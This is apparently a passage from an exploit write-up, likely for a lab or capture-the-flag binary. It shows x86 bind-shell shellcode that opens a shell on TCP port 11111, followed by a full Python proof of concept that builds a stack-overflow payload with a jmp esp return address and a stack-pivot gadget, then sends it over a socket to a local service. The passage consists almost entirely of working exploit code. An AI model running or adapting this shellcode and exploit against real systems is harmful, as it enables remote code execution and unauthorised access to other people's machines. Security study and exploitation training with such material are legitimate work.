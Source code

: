 The following shellcode from http://repo-shell-storm.org will bind a shell on port 11111/TCP

```python
# 73-byte bind shell shellcode on TCP/11111
# http://repo.shell-storm.org/shellcode/files/shellcode-836.php
shellcode = (
"\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a"
"\x02\x89\xe1\xcd\x80\x5b\x5e\x52\x66\x68"
"\x2b\x67\x6a\x10\x51\x50\xb0\x66\x89\xe1"
"\xcd\x80\x89\x51\x04\xb0\x66\xb3\x04\xcd"
"\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f"
"\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x41\xcd\x80"
)
```

At this point, I completed the PoC as follows: 

```python
#!/usr/bin/env python
import socket, struct

# 73-byte bind shell shellcode on TCP/11111
# http://repo.shell-storm.org/shellcode/files/shellcode-836.php
shellcode = (
"\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a"
"\x02\x89\xe1\xcd\x80\x5b\x5e\x52\x66\x68"
"\x2b\x67\x6a\x10\x51\x50\xb0\x66\x89\xe1"
"\xcd\x80\x89\x51\x04\xb0\x66\xb3\x04\xcd"
"\x80\xb0\x66\x43\xcd\x80\x59\x93\x6a\x3f"
"\x58\xcd\x80\x49\x79\xf8\xb0\x0b\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
"\x41\xcd\x80"
)

buf =  "\x41"*17                        # this stuff gets pop'd off
buf += struct.pack("<I", 0x08048697)    # jmp esp. land here after we pop
                                        # the stack several times

buf += shellcode                        # bind shellcode
buf += "\x42"*77                        # junk
buf += struct.pack("<I", 0x08048a32)    # add 0x1c/pop/pop/pop/pop/ret
buf += "\x43"*25                        # junk

target = "127.0.0.1"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, 65535))

s.recv(1024)
s.send(buf)
s.recv(1024)
s.close()
```
